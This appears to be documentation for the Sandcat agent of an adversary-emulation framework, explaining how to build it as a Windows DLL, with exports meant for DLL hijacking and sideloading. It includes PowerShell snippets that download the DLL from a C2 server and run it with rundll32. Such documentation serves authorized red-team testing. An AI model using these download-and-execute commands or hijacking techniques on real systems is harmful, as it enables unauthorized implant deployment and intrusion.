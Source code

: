 ## Sandcat DLL
While Sandcat is typically built for Windows as a PE executable (`.exe`) file, the Sandcat agent can also be built as a Windows DLL using the `shared` extension. 

The Sandcat DLL has the option to run the agent on DLL load (by default, it will not), and it will always export the `VoidFunc` function, which also runs the agent when called. The DLL can also be built with additional exports that internally call `VoidFunc` to run the agent, in case users need the Sandcat DLL to export certain functions for situations like DLL hijacking or sideloading.

### Build and Deploy
To build Sandcat as a Windows DLL instead of as an executable file, the following HTTP headers need to be sent to the C2 server when requesting the build:
- `platform` - must be set to `windows` to request a build for a Windows target
- `file` - must be set to `shared.go`. Note that we use this filename instead of `sandcat.go` since `shared.go` implements the necessary DLL routines to compile Sandcat as a DLL
- `server` - must be set to the address of the C2 server or P2P listener that your agent must use to connect to the C2 server. This value must be included because we will not be able to provide command-line parameters to the Sandcat DLL.

You can also set certain optional header values to customize your Sandcat DLL's behavior:
- `runOnInit` - set to `true` or `false` depending on whether or not you want Sandcat agent to start on DLL load rather than when the exported function is called. Default is `false`
- `additional_exports` - provide a comma-separated list of function names for your DLL to export in addition to the default `VoidFunc` exported function. All exported functions will trigger the same behavior - running the agent and connecting to the C2 server. This header allows users to have their Sandcat DLLs export specific functions of their choice to perform DLL hijacking attacks and other related behavior.

Below are example PowerShell snippets for deploying a Sandcat DLL:

- Execute Sandcat using `rundll32` and the `VoidFunc` exported function. Agent will connect to `http://10.0.0.1:8888`
```PowerShell
$server="http://10.0.0.1:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","shared.go");
$wc.Headers.add("server","$server");
$data=$wc.DownloadData($url);
[io.file]::WriteAllBytes("C:\Users\Public\sandcat.dll",$data) | Out-Null;
C:\Windows\System32\rundll32.exe C:\Users\Public\sandcat.dll,VoidFunc;
```

- Execute Sandcat using `rundll32` and a custom-requested exported function `MyFunc` . Agent will connect to `http://10.0.0.1:8888`. Note that the DLL also exports `MyOtherFunc`.
```PowerShell
$server="http://10.0.0.1:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","shared.go");
$wc.Headers.add("server","$server");
$wc.Headers.add("additional_exports","MyFunc,MyOtherFunc");
$data=$wc.DownloadData($url);
[io.file]::WriteAllBytes("C:\Users\Public\sandcat.dll",$data) | Out-Null;
C:\Windows\System32\rundll32.exe C:\Users\Public\sandcat.dll,MyFunc;
```
